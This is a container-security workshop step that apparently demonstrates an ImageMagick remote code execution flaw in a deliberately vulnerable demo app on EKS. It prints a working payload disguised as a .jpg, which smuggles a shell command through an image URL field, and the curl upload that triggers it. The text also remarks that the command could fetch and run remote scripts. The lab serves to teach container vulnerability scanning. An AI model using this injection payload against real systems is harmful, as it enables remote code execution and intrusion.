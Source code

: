 +++
title = "Step 4: Exploit a Container Vulnerability"
chapter = false
weight = 21
+++

## Exploit a Container Vulnerability

Putting an application into a container does not automatically make it secure. To demonstrate the risks of a vulnerable component introduced by our container base image, we will exploit a vulnerability in the ImageMagick package present in one of the pods of our running application on EKS.

## Check the application container's home directory

### List the current files in the container's home directory

First we will get a file directory listing for the container running in that pod by executing the following command:
```bash
kubectl exec -it $(kubectl get pod -l app=goof,tier=frontend -o name) -- ls 
```

You should see the file listing of the goof-image container's home directory as follows:
```bash
CODEOWNERS  README.md  node_modules	  package.json	server.js
Dockerfile  exploits   package-lock.json  public	uploads
```

## Exploit a remote code execution vulnerability

In your Cloud9 terminal run the following:
```bash
cat image-app/exploits/rce1.jpg
```

Even though that file has a `.jpg` extension in it's name, it is actually a script:

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|touch "rce1)'
pop graphic-context
```
Take special notice to the `"|touch "rce1` part of the next-to-last line.

Now, run the following:
```bash
curl -F ‘twitter_picture=@image-app/exploits/rce1.jpg’ http://GOOF_IMAGE_LB:3112/upload/
```

All we see coming back is this:
```
Found. Redirecting to /public/result.html
```

But let's check the container's filesystem again:
```bash
kubectl exec -it $(kubectl get pod -l app=goof,tier=frontend -o name) -- ls 
```

```bash
CODEOWNERS  README.md  node_modules	  package.json	rce1	   uploads
Dockerfile  exploits   package-lock.json  public	server.js
```
Now we see an additional `rce1` file has been created!

## The impact of this vulnerability
The creation of an empty file may not seem that severe but realize that any command availabile in that container could be used in place of the `touch` command used here.  This includes things like `wget`, `curl` and `apt-get`.  It would not be hard to craft an exploit that pulls a shell script from an internet site and runs whatever is in it, giving the hacker a beachhead in your cluster to operate from.

Continue to the next step to learn how to identify these, and other, vulnerabilities in your container images that are introduced by your container base image.

